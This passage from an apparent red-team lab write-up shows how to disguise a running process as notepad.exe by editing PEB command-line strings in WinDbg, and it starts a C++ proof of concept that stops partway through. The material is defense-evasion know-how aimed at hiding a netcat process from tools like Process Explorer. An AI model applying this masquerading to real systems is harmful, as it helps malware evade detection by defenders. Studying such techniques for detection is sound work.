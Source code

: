 ```text
eb 0x00000000`005e280e+3d 0x0
```
{% endhint %}

Let's check the `_UNICODE_STRING` structure again to see if the changes took effect:

```csharp
dt _UNICODE_STRING 0x00000000`005e1f60+60
```

![](../../.gitbook/assets/masquerade-4.png)

We can see that our string is getting truncated. This is because the `Lenght` value in the `_UNICODE_STRING` structure is set to 0x1e \(30 decimal\) which equals to only 15 unicode characters:

![](../../.gitbook/assets/masquerade-3.png)

Let's increase that value to 0x3e to accomodate our longer string pointing to notepad.exe binary and check the structure again:

```csharp
eb 0x00000000`005e1f60+60 3e
dt _UNICODE_STRING 0x00000000`005e1f60+60
```

Good, the string pointed to by the field `Buffer` is no longer getting truncated:

![](../../.gitbook/assets/masquerade-2.png)

For the sake of this demo, I cleared out the commandline arguments the nc.exe was launched with by amending the `_UNICODE_STRING` structure member `Lenght` by setting it to 0:

```csharp
eb 0x00000000`005e1f60+70 0x0
```

Inspecting our malicious nc.exe process again using Process Explorer reveals that it now looks like notepad without commandline arguments:

![](../../.gitbook/assets/masquerade-14.png)

Note that to further obfuscate the malicious binary, one could also rename the binary itself from nc.exe to notepad.exe.

## A simple PoC

As part of this simple lab, I wanted to write a simple C++ proof of concept that would make the running program masquerade itself as a notepad. Here is the code:

{% code title="pebmasquerade.cpp" %}
```cpp
#include "stdafx.h"
#include "Windows.h"
#include "winternl.h"

typedef NTSTATUS(*MYPROC) (HANDLE, PROCESSINFOCLASS, PVOID, ULONG, PULONG);

int main()
{
	HANDLE h = GetCurrentProcess();
	PROCESS_BASIC_INFORMATION ProcessInformation;
	ULONG lenght = 0;
	HINSTANCE ntdll;
	MYPROC GetProcessInformation;
	wchar_t commandline[] = L"C:\\windows\\system32\\notepad.exe";
	ntdll = LoadLibrary(TEXT("Ntdll.dll"));

	//resolve address of NtQueryInformationProcess in ntdll.dll
```